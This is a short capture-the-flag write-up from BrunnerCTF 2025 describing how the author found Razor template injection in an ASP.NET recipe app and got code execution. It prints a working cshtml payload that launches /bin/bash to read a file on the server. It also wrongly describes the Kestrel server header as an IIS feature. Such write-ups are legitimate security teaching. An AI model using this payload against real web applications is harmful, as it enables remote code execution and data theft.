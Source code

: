 The page lets you enter recipes and save them. Based on one of the prebuilt recipes, it's a good guess this is related to rendering engines.

Now you will notice that this is an ASP.NET application first glance:
1. the `id` parameter is not case sensitive when you try to load other recipes
2. Krestel server header (it's a Microsoft IIS thing)
3. You can trigger an error with aspx syntax, we now know it's .cshtml. And you can get code eval as shown below.

![alt text](/CTF-writeups/2025/brunnerctf-2025/images/dotwhat-error.png)

![alt text](/CTF-writeups/2025/brunnerctf-2025/images/dotwhat-razor.png)

![alt text](/CTF-writeups/2025/brunnerctf-2025/images/dotwhat-linux.png)

We then build a cshtml payload to get RCE on the box. Also, it's running on Linux (3rd img) instead because of the file path and windows binaries aren't found.

```
@{ var psi = new System.Diagnostics.ProcessStartInfo(); psi.FileName = "/bin/bash"; psi.Arguments = "-c \"cat ../user.txt\""; psi.RedirectStandardOutput = true; psi.UseShellExecute = false; psi.CreateNoWindow = true; var proc = System.Diagnostics.Process.Start(psi); string output = proc.StandardOutput.ReadToEnd(); proc.WaitForExit(); @output }
```

Flag: `brunner{m0R3_l1K3_r3c1P3_1NJ3ct1On!}`

Solved by: benkyou